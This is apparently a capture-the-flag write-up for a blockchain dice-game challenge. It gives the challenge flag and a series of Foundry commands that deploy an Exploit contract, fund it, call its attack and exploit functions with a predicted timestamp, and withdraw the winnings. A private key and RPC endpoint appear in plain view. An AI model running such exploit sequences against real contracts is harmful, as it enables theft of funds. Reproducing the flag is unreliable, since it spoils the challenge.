 ```yaml
---
title: "Dice Game"
category: Miscellaneous
tags: 
  - Blockchain
draft: false
completedDuringEvent: true
submitted: true
flag: RECURSION{pr0vably_f41r_d1ce_g4me_w1th_smart_c0ntr4cts}
---
```

> This is a blockchain-based **dice game** that simulates traditional gambling mechanics using smart contracts. Players can start a game, place wagers, and roll virtual dice with outcomes ranging from 1 to 1000. The game is designed to be provably fair by utilizing a combination of user-generated and server-generated seeds to compute each roll deterministically.

by `ztz`

---

```bash
$ forge create --broadcast --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e ./src/Exploit.sol:Exploit --constructor-args 0xF17C373965C4e66c8eaD5E24B41ABaFeA37e8E83 0x1c4107E0C5AF7Ff7e5fF1D8aC02b7A19e7Cd6379

$ cast send --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --value 16ether 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "attack()" --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast block latest --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "exploit(uint256, uint256)" 6 1743917106 --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
$ cast send 0x4bd657ac6a6C8908AEc9EAD37860fAba25700Cda "withdraw()" --private-key 0xb1a96be28556d6721d3a5e0eb5d4973f1a4ba3e0754b99f1d6dd85134d57680e --rpc-url http://103.87.66.171:8545/k16a8f6i8r9i5n7z
```
